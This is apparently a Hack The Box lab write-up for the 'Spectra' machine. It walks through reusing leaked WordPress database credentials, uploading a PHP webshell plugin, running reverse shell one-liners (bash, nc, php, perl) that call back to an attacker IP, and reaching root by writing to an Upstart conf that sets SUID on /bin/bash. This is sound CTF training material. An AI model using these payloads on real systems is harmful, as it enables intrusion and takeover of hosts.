


# Spectra: 10.10.10.229

## Hints

- There are lots of ways to get a shell with WordPress creds
- Privesc is a little strange based on the target system, normal enumeration tools will guide the path for you

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
80/tcp   open  http    nginx 1.17.4
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80: Recon

Browsing to the website shows an "Issue Tracking" landing page with links to a "Software Issue Tracker" and "Test". Both links have the `spectra.htb` hostname - so I updated the `/etc/hosts` file with this info. The "Software Issue Tracker" is just a basic WordPress site under the `main` directory.


The "Test" site just shows a database connection error, and is under the `testing` directory.



Started running the usual `gobuster` against the `main` directory as it seemed more likely to yeild some interesting info.

```none
└─$ gobuster dir -t 20 -u spectra.htb/main/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_main_medium.log -x php
```

Not much came from this enumeration - just the usual WordPress files and folders. So I moved to the "Test" site, and ran another `gobuster`.

```none
└─$ gobuster dir -t 20 -u spectra.htb/testing/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_testing_medium.log
```

Interestingly some common WordPress folders started appearing in the results. I started poking around, then found a full directory listing when removing the default `index.php` file from the URL.


The `.save` file jumped out as being interesting. When inspecting the file (by opening and viewing source), there were database credentials.

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

- Username: `devtest`
- Password: `devteam01`



Since the "Test" site has a consistent database error, we cannot login. But maybe these credentials are being re-used. I treid on the other WordPress site as `admin` with no luck, then tried using `administrator` as the username (as that user had made a post). Success!


## Getting a Shell

Feels like I have done a bunch of WordPress sites recently. With admin access, there are a bunch of ways to get a reverse shell. Have a read of [WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) to see some of the options including:

- The `wp_admin_shell_upload` Metasploit module
- Injecting code into a theme
- Upload malicious plugin
- Injecting code into a plugin

This time I wanted to try write a barebones WordPress plugin that was flexible to run code, and/or get a reverse shell. Here are the steps I used.

Create a base folder for the plugin, enter the folder, and create a PHP file for the code.

```none
mkdir pressexec
cd pressexec
touch pressexec.php
```

Create a minimal plugin file which takes an HTTP requests parameter. This way, we can pass paramters and run a variety of commands while uploading the plugin only once.

```none
<?php
/*
* Plugin Name: pressexec
* Version: 1.0.0
* Author: Some Person
* Author URI: http://someperson.com
* License: GPL2
*/
system($_REQUEST["cmd"])
?>
```

Create a ZIP archive of the base plugin folder, and name it `pressexec.zip`. If you view the ZIP file contents, you should see the following structure.

```none
└─$ zip -sf exploits/pressexec.zip
Archive contains:
  pressexec/
  pressexec/pressexec.php
Total 2 entries (155 bytes)
```

The upload is easy. Navigate to:

```none
Plugins > Add New > Upload Plugin > Browse
```

Select the ZIP file and `Install Now`. You might get some errors - but the plugin should be viewable on the _Installed Plugins_ page.


The full path of the installed plugin is under `wp-content/plugins/`. And it can be triggered using the following URL, with the `cmd` parameter.

```none
http://spectra.htb/main/wp-content/plugins/pressexec/pressexec.php?cmd=whoami
```


Went down [Reverse Shell Cheat Sheet from pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). My go-to payloads didn't work.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001

php -r '$sock=fsockopen("10.10.14.4",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

I never really use some of the other shells including Python and Perl - because they are so long. But, today, `perl` came through and got a reverse shell.

```none
perl -e 'use Socket;$i="10.10.14.4";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Make sure to URL encode - there are a bunch of bad characters in that payload. And we have a shell as the `nginx` user:

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.229] 42436
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

## Privesc: `nginx` to `katie`

Fired up `linpeas.sh` to start some enumeration. The first thing I notice is this machine is running `Chromium OS 11.0`. Even though it is based on Linux - it looks different. Interesting! Not much was blatantly obvious in the linpeas output, and had to poke around for a good 30 minutes until I found something. Some interesting things I found were:

- `katie` is in the `developers` group
- There was lots of mention of `autologin`

After working through the linpeas output, there was one weird entry that just seemed out of place.

```none
passwd="$(cat "${dir}/passwd")"
```

This is what made me start looking at autologin and password files. Linepas reported the `/etc/init/autologin.conf` file, which read in a password from a file, and then logged in.

```none
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
```

I looked through each of the directories, and found a (not normal) `passwd` file with a password.

```none
$ cd /etc/autologin/
$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
$ cat passwd    
SummerHereWeCome!!
```

## Flag: User

Using some HTB-logic, tried to login as any of the users on the system. And got the katie user and the user flag.

```none
└─$ ssh katie@10.10.10.229            
Password: 
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ wc -c user.txt 
33 user.txt
```

## Privesc: `katie` to `root`

Started running linpeas again, this time as the `katie` user to find a privesc to `root`. The `sudo` configuration looked interesting.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                         
User katie may run the following commands on spectra:                                                               
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

The linpeas output also highlighted the following files - which seemed to be related.

```none
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                          
You have write privileges over /etc/init/test6.conf                                                                 
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```

After following the [HackTricks link](https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d) - figured out this was all about Upstart.

> `/etc/init` contains configuration files used by Upstart. Upstart is a young service management package championed by Ubuntu.

Checking the specified files, it was indeed correct that we have write access to some files in`/etc/init` - as `katie` is in the `developers` group.

```none
cd /etc/init
ls -la
32103  4 -rw-rw----  1 root developers   478 Jun 29  2020 test.conf
32105  4 -rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
32106  4 -rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
32108  4 -rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
32109  4 -rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
32112  4 -rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
32120  4 -rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
32121  4 -rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
32123  4 -rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
32126  4 -rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
32128  4 -rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
```

And... we have access to run `/sbin/initctl` as `root` with no password required. Seems like a match made in heaven! I used a really simple, barebones example of an Upstart service which sets the SUID for the `/bin/bash` executable. That way, we can run bash and get `root` priviledge.

```none
cd /etc/init
printf "script\n    chmod +s /bin/bash\nend script\n" > test.conf
```

The last line will overwrite the existing `test.conf` file with:

```none
script
    chmod +s /bin/bash
end script
```

Then we can use `/sbin/initctl` to start the service we just modified:

```none
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 28400
```

And run `bash` and get `root` access:

```none
katie@spectra /etc/init $ ls -la /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
katie@spectra /etc/init $ bash -p
bash-4.3# id
uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
bash-4.3# wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Expect the unexpected - this machine threw me off during the webshell part, as none of my go-to shells worked
- Write better notes when initially working on the box - especially which commands worked or didn't work!

## Useful Resources

- [HackTheBox Spectra - ippsec](https://www.youtube.com/watch?v=mC7G3i2gV54)
- [HackTheBox — Spectra Walkthrough](https://ravi5hanka.medium.com/hackthebox-spectra-walkthrough-3ed55aaf350c)
- [Hack The Box – Spectra Walkthrough by Stefano Lanaro](https://steflan-security.com/hack-the-box-spectra-walkthrough/)
